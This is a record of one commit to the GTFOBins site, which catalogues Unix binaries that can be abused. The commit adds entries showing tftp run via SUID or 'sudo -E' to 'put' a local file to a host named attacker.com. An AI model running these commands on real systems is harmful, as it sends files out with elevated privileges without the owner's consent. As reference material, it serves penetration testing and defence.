

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/tftp.md, in a window 1280 px wide. Shown: the whole page at 86% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Add suid-enabled and sudo-enabled to tftp

```diff
--- a/_gtfobins/tftp.md
+++ b/_gtfobins/tftp.md
@@ -12,4 +12,16 @@ functions:
         RHOST=attacker.com
         tftp $RHOST
         get file_to_get
+  suid-enabled:
+    - description: Send local file to a TFTP server.
+      code: |
+        RHOST=attacker.com
+        ./tftp $RHOST
+        put file_to_send
+  sudo-enabled:
+    - description: Send local file to a TFTP server.
+      code: |
+        RHOST=attacker.com
+        sudo -E tftp $RHOST
+        put file_to_send
 ---
```
